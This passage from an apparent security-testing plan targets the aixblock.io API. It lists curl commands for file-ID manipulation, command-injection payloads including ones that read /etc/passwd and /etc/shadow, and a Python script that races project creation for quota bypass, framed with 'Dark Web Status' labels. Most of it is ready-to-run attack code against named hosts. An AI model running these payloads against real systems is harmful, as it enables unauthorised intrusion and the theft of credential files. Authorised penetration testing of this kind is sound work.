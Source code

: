 ```bash
# Test file ID manipulation
curl -X GET "https://api.aixblock.io/api/v1/files/1" \
  -H "Authorization: Bearer <token>"

# Change file_id from 1 to 2
curl -X GET "https://api.aixblock.io/api/v1/files/2" \
  -H "Authorization: Bearer <token>"
```

### **🔴 PRIORITY 3: COMMAND INJECTION**
**Dark Web Status**: Critical for RCE attacks
**Testing Strategy**:

```bash
# Basic command injection
curl "https://workflow.aixblock.io/api/v1/execute?cmd=; ls -la"
curl "https://api.aixblock.io/api/v1/run?script=& whoami"
curl "https://workflow.aixblock.io/api/v1/process?input=` id `"

# Blind command injection
curl "https://workflow.aixblock.io/api/v1/execute?cmd=; sleep 5"
curl "https://api.aixblock.io/api/v1/run?script=& ping -c 5 127.0.0.1"
curl "https://workflow.aixblock.io/api/v1/process?input=` sleep 5 `"

# Advanced command injection
curl "https://workflow.aixblock.io/api/v1/execute?cmd=; cat /etc/passwd"
curl "https://api.aixblock.io/api/v1/run?script=| cat /etc/shadow"
curl "https://workflow.aixblock.io/api/v1/process?input=` cat /etc/hosts `"
```

### **🔴 PRIORITY 4: RACE CONDITIONS**
**Dark Web Status**: Heavily exploited for quota bypass
**Testing Strategy**:

```python
import requests
import threading
import time

def race_condition_test():
    threads = []
    for i in range(10):
        t = threading.Thread(target=create_project_request)
        threads.append(t)
        t.start()
    
    for t in threads:
        t.join()

def create_project_request():
    try:
        response = requests.post("https://api.aixblock.io/api/v1/projects", 
                               json={"name": f"test_project_{time.time()}"})
        print(f"Response: {response.status_code} - {response.text[:100]}")
    except Exception as e:
        print(f"Error: {e}")

# Test quota bypass
race_condition_test()
```
